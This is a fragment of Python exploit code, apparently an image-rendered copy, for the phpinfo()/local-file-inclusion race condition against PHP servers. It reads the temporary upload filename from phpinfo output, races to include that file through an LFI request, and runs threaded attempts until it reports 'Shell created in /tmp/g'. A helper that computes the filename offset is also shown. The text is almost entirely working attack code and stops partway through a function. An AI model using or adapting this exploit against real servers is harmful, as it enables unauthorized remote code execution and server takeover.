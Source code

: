 ```python

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt; ")
        fn = d[i+17:i+31]
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()

    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock =  l
        self.maxattempts = m
        self.args = args

    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter >= self.maxattempts:
                    return
                counter+=1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break                
                if x:
                    print "\nGot it! Shell created in /tmp/g"
                    self.event.set()
                    
            except socket.error:
                return
    

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host,port))
    s.send(phpinforeq)
    
    d = ""
    while True:
        i = s.recv(4096)
        d+=i        
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0\r\n\r\n"):
            break
```